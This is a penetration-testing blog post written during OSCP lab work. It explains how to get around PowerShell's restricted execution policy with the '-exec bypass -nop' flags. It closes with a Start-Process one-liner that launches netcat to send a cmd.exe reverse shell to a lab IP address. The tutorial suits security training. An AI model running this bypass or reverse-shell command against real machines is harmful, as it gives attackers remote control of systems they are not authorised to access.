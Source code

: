 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Beating Restricted Policies"
author: nanobyte
date:   2020-05-23
description: PowerShell for Penetration Testing, and how to beat restricted policies to run commands and scripts
tags: PowerShell
---
```


Recently, while I was going for my Offensive Security Certified Professional (OSCP) certificate, I ran into a machine in the labs which had a restricted PowerShell. Simply stated, I could not enter into an interactive PowerShell session or run any PowerShell scripts. PowerShell has several execution policies which can be set on a system, and these execution policies determines which scripts can be run. By default, this is set to "restricted". From Microsoft, restricted "doesn't load configuration files or run scripts. The default execution policy Windows client computers."

However, there is an execution policy which, as penetration testers, we want to have set. That execution policy is "bypass", which states "nothing is blocked and there are no warnings or prompts." Luckily, we are able run a command or script with PowerShell's execution policy bypass set. Now, even though the default restricted policy is set, our commands will still run. To run a PowerShell command with bypass:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -Command "whoami"
{% endhighlight %}

Or, for shorthand:

{% highlight bash linenos %}
powershell -exec bypass -c "whoami"
{% endhighlight %}

Even though the system is restricted, PowerShell can still be leveraged! Let's build on this and take it another step further. When you enter a PowerShell session or run a script, you run it in the context of the current profile. I could check into the PowerShell profile and see what is set within the profile. But by running commands without checking this first, I do not know what is within these profiles. Alternatively, for best practices, I can supply the No Profile flag which will run my script without using any profile:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -NoProfile -Command "whoami"
{% endhighlight %}

Or, another shorthand:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "whoami"
{% endhighlight %}

With this, I can run commands from a restricted PowerShell enviornment without any profile loading. We are almost at the end goal, to execute a command on the system. If we wished to spawn a process, PowerShell has the built in Start-Process cmdlet (command-let). A cmdlet is a lightweight command that can be used within a PowerShell enviornment. There is most likely a cmdlet for anything you wish to accomplish in PowerShell. In my case, I wanted to start netcat for a reverse shell.

Start-Process is a powerful cmdlet, and to better understand it visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7" target="_blank">docs.microsoft</a>. For my case, I needed to first define the program to spawn, followed by the arguments. Simply calling `Start-Process nc -e cmd.exe <IP> <PORT>` would fail here. To properly spawn this new process:
  
{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process $prog $args }"
{% endhighlight %}

Now, my command will call PowerShell with a bypass in the execution policy, to run the command without any profile set, and run my Start-Process command, properly passing the $prog and $args variables. Now, you might be asking, where did the ampersand come from? In PowerShell, the ampersand is a reserved character for a run call operator. This call operator is needed to force PowerShell to treat the text as a command and not a string, and execute it. For more information, please visit <a href="https://ss64.com/ps/call.html" target="_blank">ss64.com</a>.

And that is it, the above command will now spawn a new process, bypassing the restricted PowerShell execution policy to run my command! 
